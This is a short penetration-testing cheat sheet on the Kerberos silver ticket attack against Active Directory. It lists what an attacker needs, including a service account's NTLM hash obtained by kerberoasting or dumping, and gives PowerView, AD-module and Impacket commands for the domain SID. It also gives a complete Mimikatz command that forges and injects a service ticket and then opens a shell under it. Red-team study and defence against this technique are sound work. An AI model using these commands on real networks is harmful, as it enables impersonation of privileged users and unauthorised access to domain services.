 # Silver Ticket Attack

> **Any** domain user can obtain a service ticket to any service in the domain. The service ticket is encrypted with the password hash of the user or computer account that the service is registered for. By retrieving and cracking the service ticket, it is possible to discover the service account's password hash. With the hash of a service account, you can create a ticket that can be used to interact with any of the services that the service account is registered for (i.e., has a [[service-principal-name|SPN]] for).

---

## Required pieces of information

1. The name of the user account to impersonate
    - Doesn't have to be a real user account
    - i.e., Administrator
2. The name of the domain
    - i.e., hydra.test
3. The SID of the domain
    - i.e., S-1-5-21-849420856-2351964222-986696166
4. The fully qualified domain name of the server
    - i.e., hydra-ws01.marvel.test
5. The target service name
    - i.e., SQLService
6. The NTLM/RC4 password hash of the target service
    - Obtainable via kerberoasting, SAM dump, secretsdump, etc.

---

## (PowerView) Obtain domain SID

```powershell
Get-DomainSID
```

---

## (Active Directory PowerShell Module) Obtain Domain SID

```powershell
Get-ADDomain
```

---

## (Impacket) Obtain Domain SID

```bash
lookupsid.py
```

---

## (Mimikatz) Create and Use the Silver Ticket

```powershell
mimikatz: kerberos::golden /user:$USER_TO_IMPERSONATE /domain:$DOMAIN /sid:$DOMAIN_SID /target:$FQDN_TARGET_SERVER /service:$TARGET_SERVICE_NAME /rc4:$NTLM_OR_RC4_HASH /ptt
```

Open up a new command prompt that leverages the silver ticket (must be in a GUI session to access the new command prompt).

```powershell
mimikatz: misc:cmd
```

---

## [(Impacket) Create and Use the Silver Ticket](https://yojimbosecurity.ninja/golden-ticket-with-impacket/)

- This method will need to be modified slightly for **silver** tickets.
